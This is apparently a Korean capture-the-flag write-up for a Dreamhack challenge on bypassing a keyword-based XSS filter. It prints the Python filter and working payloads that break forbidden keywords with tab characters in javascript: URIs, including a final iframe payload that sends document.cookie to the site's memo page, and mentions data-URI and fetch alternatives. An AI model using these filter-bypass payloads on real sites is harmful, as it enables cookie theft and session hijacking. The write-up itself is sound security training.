 ## XSS Filtering Bypass Advanced
<hr style="border-top: 1px solid;"><br>

```python
def xss_filter(text):
    _filter = ["script", "on", "javascript"]
    for f in _filter:
        if f in text.lower():
            return "filtered!!!"

    advanced_filter = ["window", "self", "this", "document", "location", "(", ")", "&#"]
    for f in advanced_filter:
        if f in text.lower():
            return "filtered!!!"

    return text
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

필터링 단어들을 공백으로 치환하지 않고 filtered란 단어를 출력하게 하였다.

<a href="https://dreamhack.io/lecture/courses/318" target="_blank">Exploit Tech: XSS Filtering Bypass - I</a>에서 보면 URI 정규화 관련 내용이 나온다.

정규화 과정을 이용해서 접근해보았다. ```%09(\t), %0a(\n)```을 이용하면 된다.
: ```<iframe src="javascri%09pt:alert`1`">``` --> alert(1) 실행된다.

<br>

위의 과정까지 도달하는데 굉장히 오래 걸렸다... ㅠ

테스트 쿠키를 만든 뒤 ```/vuln``` 페이지에서 아래의 페이로드를 보내면 쿠키 값이 메모장에 출력된다.
: ```<iframe src="javascri%09pt:locatio%09n.href='/memo?memo='%2bdocumen%09t.cookie">```

flag 페이지에서 입력할 때 아래 payload 그대로 넣어야 동작한다. **(```/vuln``` 페이지에 페이로드를 넣고 소스페이지에서 확인)**

<br>

![payload](https://user-images.githubusercontent.com/52172169/166133877-6fe1b3c9-8b61-49ae-b744-e1a279adbbdf.png)

<br>

최종 payload
: ```<iframe src="javascrip	t:locatio	n.href='/memo?memo=' documen	t.cookie">```

<br>

다른 풀이로는 ```data:[<mediatype>][;base64],<data>```를 이용해서 풀 수도 있다.
: <a href="https://developer.mozilla.org/ko/docs/Web/HTTP/Basics_of_HTTP/Data_URIs" target="_blank">developer.mozilla.org/ko/docs/Web/HTTP/Basics_of_HTTP/Data_URIs</a>

```<svg>``` 태그와 ```<use>``` 태그를 이용해서 ```<use>```의 ```href``` 속성에서 data URI를 이용해 푼 풀이가 있었다.

또한 자바스크립트의 ```fetch``` 함수를 이용해서 원격 API를 호출해서 풀 수도 있다.

<br>

+ Flag : ```flag=DH{[redacted]}```

<br><br>
<hr style="border: 2px solid;">
<br><br>
